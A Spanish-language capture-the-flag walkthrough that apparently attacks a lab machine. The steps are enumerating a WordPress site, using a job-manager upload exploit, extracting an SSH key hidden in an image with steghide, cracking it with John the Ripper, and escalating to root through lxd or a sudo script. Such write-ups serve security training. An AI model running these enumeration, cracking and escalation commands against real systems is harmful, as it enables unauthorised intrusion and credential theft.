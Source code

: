 ## Summary

- IP -> 10.10.10.10
- Ports -> TCP (22,80), UDP (idk)
- OS ->  
- Services & Applications
    - 22 -> SSH Openssh 7.2p2
    - 80 -> HTTP Apache Httpd 2.4.18 -> WordPress 4.7.3, La version mas actual de WordPress es la 6.0


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Launchpad SSH Openssh 7.2p2 4ubuntu2.1 -> Para saber el Codename Xenial
Launchpad Apache 2.4.18 ->  Xenial

- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

❯ **nmap --script http-enum -p80 10.10.10.10 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.10.10 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Enocntramos un usuario en la pagina que se llama Takis, por lo que lo verificamos en el panel de autenticacion

Ruta tipica de WordPress
- **/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
- **/wp-login.php** Es la ruta del panel de autenticacion de WordPress
En ese panel podemos enumerar usuarios validos

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text
- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo

- Comando -> **curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/8/" | html2text | grep "Job application" | awk '{print $2}' FS=":"** Tramitamos la peticion y para verlo mas bonito e intepretado le ponermos el html2text, ademas de simplificar lo que queremos para solo ver el tiitulo. El awk nos permite delimitar por los dos puntos y asi tomaremos el segundo argumento 

Ahora nos contriumos un ciclo for para poder ver todos los titulos posibles 
- Comando -> **for i in $(seq 1 100); do curl -s -X GET "http://10.10.10.10/index.php/jobs/apply/\$i/" | html2text | grep "Job application" | awk '{print $2}' FS=":"; done** 
Ira iterando de uno en uno hasta llegar al cien y nos mostrara todos los titulos que existan (En el $i debemos de quitarle el \\, solo se puso para que no se modificara el comando en este caso)

Ahora debemos de enumerar Plugins en el WordPress
- Comando -> **wfuzz -c --hc=404 -t 200 -w /user/share/Seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.10/FUZZ/** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 

Buscamos en Google (wordpress job manager exploit)
Miramos que podemos hacer Bypass por medio de la parte del CV, y justamente hay una seccion en la pagina en donde podemos subir un CV.

Ahora debemos de buscar un Exploit pero como es del 2017 buscaremos en la pagina de las Snapshots (Wayback machine)
https://archive.org
Ahi buscaremos la pagina Vagmour.es que cotiene el exploit que necesitaremos para poder hacer el Bypass. Lo buscaremos en Agosto del 2018

Econtramos escrito el exploit. Por lo que hacemos un archivo en nano con la extension .py
Ahi adentro lo pegamos y modificamos los siguientes campos:
	#!/usr/bin/python3
	print ()
	range (2017,2022) agregaremos mas anos 
	website =input
	filename=input
	extensions = 'jpg', 'png', 'gif' ... Agregaremos mas extensiones 
	print()

Con ese script lo que hace es que ingresemos primero el sitio vulnerable y despues el documento a buscar. Lo que hace es Fuzzing
Direccion IP : 10.10.10.10
filename : HackerAccessGranted

Nos encuentra un archivo .jpg 

Nos guardamos la imagen y nos la traemos a nuestra ruta de trabajo
* Comando -> **exiftool HackerAccessGranted.jpg** Para ver los metadatos de la imagen
- Comando -> **strings HackerAccessGranted.jpg** Imprimir las cadenas de caracteres 
- Comando -> **strings HackerAccessGranted.jpg -n 10** Imprimir las cadenas de caracteres, listamos las cadenas que contengan mas de 10 caracteres

- Comando -> **steghide info HackerAccessGranted.jpg** Para informarme si en esa imagen hay informacion oculta, le damos 'y' y despues le damos enter, pensando que no hay passwd
- Comando -> **steghide extract -sf HackerAccessGranted.jpg** Para extraer la informacion de la imagen, enter porque no esta protegido por passwd y obtenemos la id_rsa, en este caso de esta maquina
- Comando -> **steghide embed -cf gato.jpg -ef passwd** Donde la imagen se llama gato y lo que le queremos ocultar es el /etc/passwd y podemos ponerle o no passwd 

Tenemos el id_rsa pero esta esta encriptada
- Comando -> **chmod 600 id_rsa** Es el privilegio que debe tener una id_rsa

Usaremos jhon the ripper para extraer un Hash
- Comando -> **jhon id_rsa > hash** Para poder estraer el hash y lo pasamos a un archivo llamado hash
- Comando -> **jhon -w:$(locate rockyou.txt) hash** Aplicaremos fuerza bruta al hash con el diccionario de rockyou.txt

## User
- Comando -> **ssh -i id_rsa takis@10.10.10.10** Nos conectamos por ssh teniendo un id_rsa con privilegio 600, y empleamos la passwd que encontramos con jhon

Buscamos la flag de user.txt

## Root

- **lsb_release -a** Para ver la version del Ubuntu 
- **whoami**
- **id** Y nos encontramos en el grupo **lxd** y existe una via potencial para poder escalar privilegios
- **searchsploit lxd** Buscaremos el sploit en .sh 
- **searchsploit -x /linux/local/46978.sh** Este sploit esta hecho por Savitar y seguimos los pasos

De la forma intensionada es de la siguiente manera:
- **sudo -l** Para ver los privilegios en el Sudoers (l=ele), encontraremos un script que le podemos meter 4 argumentos. 
- **/bin/fuckin whoami** Si ejecutamos eso, nos mostrara el resultado del comando whoami que es Takis

Por lo que si lo hacemo de esta manera pasa lo siguiente:
- **sudo fuckin whoami** En este caso nos muestra que es el usuario root
- **sudo fuckin bash** En este caso nos convertira en el usuario root y listo podremos buscar la flag de root